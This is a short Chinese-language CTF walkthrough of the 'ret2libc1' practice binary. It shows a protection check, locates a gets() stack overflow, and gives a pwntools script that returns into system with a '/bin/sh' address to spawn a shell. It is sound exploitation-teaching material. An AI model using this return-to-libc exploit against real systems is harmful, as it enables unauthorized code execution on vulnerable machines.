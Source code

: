 # ret2libc1

首先，我们先检查一下程序的安全保护

![栈保护](图片/image-20240424143119430.png)

源程序位32位，开启了NX保护。下面对程序进行反编译以确定漏洞位置：

![image-20240424143335148](图片/image-20240424143335148.png)

可以看到在执行gets函数的时候出现了栈溢出。此外，利用ropgadget，我们可以查看是否有/bin/sh存在

![image-20240424143507043](图片/image-20240424143507043.png)

确实存在，我们再查找一下是否有system函数存在。

![image-20240424152134348](图片/image-20240424152134348.png)

那么，我们直接返回该处，执行system函数。payload如下：

```python
from pwn import *

sh = process('./ret2libc1')
# /bin/sh地址
binsh_addr = 0x08048720
# system函数地址
system_plt = 0x08048460

payload = flat([b'A'*112,],system_plt,0xcafeefac,binsh_addr)

sh.sendline(payload)
sh.interactive()
 
```

